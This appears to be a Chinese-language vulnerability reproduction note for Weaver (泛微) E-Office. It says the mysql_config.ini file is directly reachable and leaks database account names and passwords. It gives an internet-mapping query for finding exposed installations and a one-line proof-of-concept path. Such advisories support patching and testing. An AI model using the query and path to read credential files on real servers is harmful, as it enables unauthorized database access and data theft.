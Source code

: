 # 泛微OA E-Office mysql_config.ini 数据库信息泄漏漏洞

## 漏洞描述

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息

## 漏洞影响

```
泛微 E-Office
```

## 网络测绘

```
app="泛微-EOffice"
```

## 漏洞复现

产品页面

![img](./images/202202091048925.png)

验证POC

```php
/mysql_config.ini
```

![img](./images/202202091048869.png)